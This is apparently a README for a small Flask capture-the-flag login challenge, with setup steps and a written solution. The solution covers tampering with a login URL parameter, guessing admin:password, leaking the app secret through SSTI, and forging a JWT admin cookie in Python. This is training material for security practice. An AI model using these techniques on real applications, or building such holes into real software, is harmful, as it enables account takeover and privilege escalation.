 # LoginChallenge2022
Mini CTF challenge for the September 2022 Activity Fair

## Install + Setup

### Install Flask

**Windows**

Install Python:

https://www.python.org/downloads/release/python-397/

Set PATH:
- Start > Edit Environment Variables
- Add Python install directory to both System and Environment variables

Check python installed:

```
PS > python --version
```

Install flask and other dependencies:

```
PS > python -m pip install -r requirements.txt
```

**Linux**

```
$ python3 -m pip install -r requirements.txt
```

## Run

### Windows

```
PS > cd .\web\
PS > $env:FLASK_APP = "app"
PS > $env:FLASK_DEBUG = "true"
PS > python -m flask run
```

## Solution

### Part 1

Change the `http://localhost:5000/?loginSuccessful=False` parameter to `True`

OR

Guess the weak credentials `admin`:`password`

### Part 2

Leak app secret with SSTI

THEN

Inspect the JWT to see `is_admin` parameter and forge a new cookie

```
$ python
>>> import jwt
>>> token = 'eyJ0....K3FA'
>>> secret = ';nod87b;/dfub6vaz.knib'
>>> jwt.decode(token, secret, "HS256") 
{'fresh': False, 'iat': 1663444862, 'jti': '6b0f4003-7579-41cc-bc30-c0fb9c4e3ef3', 'type': 'access', 'sub': {'is_admin': False}, 'nbf': 1663444862, 'csrf': 'fbcf88b6-684e-42e7-8d7d-1de3fd65b58e', 'exp': 1663445762}
>>> j = jwt.decode(token, secret, "HS256") 
>>> j['sub'] = {'is_admin': True}
>>> jwt.encode(j, secret)
'eyJ0...ncRo'
```

Replace the `access_token_cookie` with this new value and reload the page